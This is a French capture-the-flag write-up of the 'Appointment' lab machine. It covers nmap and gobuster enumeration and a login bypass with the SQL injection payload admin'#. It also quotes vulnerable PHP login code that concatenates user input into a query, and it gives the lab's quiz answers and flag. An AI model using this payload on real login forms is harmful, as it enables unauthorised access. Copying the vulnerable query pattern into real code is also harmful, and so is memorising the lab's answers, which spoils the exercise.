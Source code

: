 
# APPOINTMENT

![alt text](image.png)

#databases #apache #mariadb #PHP #SQL #reconnaissance #SQLinjection

## 1. Méthodologie

On lance un `nmap -sV -p- IP_cible` :

```
└──╼ [★]$ nmap -sV -p- 10.129.167.140
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-23 07:12 CST
Nmap scan report for 10.129.167.140
Host is up (0.0097s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

Un serveur web tourne sur le port 80. Nous allons de nouveau énumérer les répertoires du serveur web avec `gobuster dir -u http://IP_cible/ -w /usr/share/dirb/wordlists/common.txt` 

```
└──╼ [★]$ gobuster dir -u http://10.129.167.140/ -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.167.140/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/css                  (Status: 301) [Size: 314] [--> http://10.129.167.140/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.167.140/fonts/]
/images               (Status: 301) [Size: 317] [--> http://10.129.167.140/images/]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 313] [--> http://10.129.167.140/js/]
/server-status        (Status: 403) [Size: 279]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.167.140/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
Les status 4.3 ne répondent pas, les status 301 sont des redirections et les status 200 aboutissent. Il serait intéressant ici de se connecter sur l'interface web de la page index.php qui existe. Une page de login apparait:

![alt text](image-1.png)

Il faut réussir à injecter une commande pour qu'elle soit interprété par le service: une injection SQL. Pour se faire on entre en utilisateur et en mot de passe la ligne suivante: `admin'#`

![alt text](image-2.png)

On arrive donc à passer en on récupère le flag.

## 1.1 Explication de l'injection SQL dans notre cas présent:

Voici le script en SQL qui est utilisé pour l'authentification:

```
<?php
mysql_connect("localhost", "db_username", "db_password"); # Connection to the SQL 
Database.
mysql_select_db("users"); # Database table where user information is stored.
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'"; 
# Query for user/pass retrieval from the DB.
$result=mysql_query($sql);
# Performs query stored in $sql and stores it in $result.
$count=mysql_num_rows($result);
# Sets the $count variable to the number of rows stored in $result.
if ($count==1){
  # Checks if there's at least 1 result, and if yes:
  $_SESSION['username'] = $username; # Creates a session with the specified $username.
  $_SESSION['password'] = $password; # Creates a session with the specified $password.
  header("location:home.php"); # Redirect to homepage.
}

else { # If there's no singular result of a user/pass combination:
  header("location:login.php");
  # No redirection, as the login failed in the case the $count variable is not equal to 1, 
HTTP Response code 200 OK.
}
?>
```
`admin'#`

On termine le login par une apostrophe autorisant le script à chercher un ID pour admin. En ajoutant le #, on commente le reste de la ligne du script permettant ainsi au script de ne chercher qu'un utilisateur nommé "admin" sans s'occuper de son mot de passe. Cet utilisateur a existé donc le login est autorisé. Si celui-ci n'existe pas, il faut essayer avec d'autres login par défaut. Etant donné que dans le login nous demandons au script d'exclure la partie mot de passe, on peut rentrer ce qu'on veut dans le champ "password", cela ne sera pas pris en compte car la requête exclut cette partie de correspondance. Et le script retournera une valeur de "1" qui signifie positif si l'utilisateur a existé/existe.

Voilà donc à quoi ressemble notre requête modifiée:

![alt text](image-3.png)

On indique bien au script de ne considérer que le login, qui est ici "admin" et de commenter le reste donc de ne pas prendre en compte la correspondance de mot de passe.


## 2. Questions

### Task 1

What does the acronym SQL stand for?

```
Structured query language
```

### Task 2

What is one of the most common type of SQL vulnerabilities?

```
SQL injection
```

### Task 3

What is the 2021 OWASP Top 10 classification for this vulnerability?

```
A03:2021-injection
```

### Task 4

What does Nmap report as the service and version that are running on port 80 of the target?

```
Apache httpd 2.4.38 ((Debian))
```

### Task 5

What is the standard port used for the HTTPS protocol?

```
443
```

### Task 6

What is a folder called in web-application terminology?

```
directory
```

### Task 7

What is the HTTP response code is given for 'Not Found' errors?

```
404
```

### Task 8

Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

```
dir
```

### Task 9

What single character can be used to comment out the rest of a line in MySQL?

```
#
```

### Task 10

If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?

```
congratulations
```

### Flag

```
e3d0796d002a446c0e622226f42e9672
```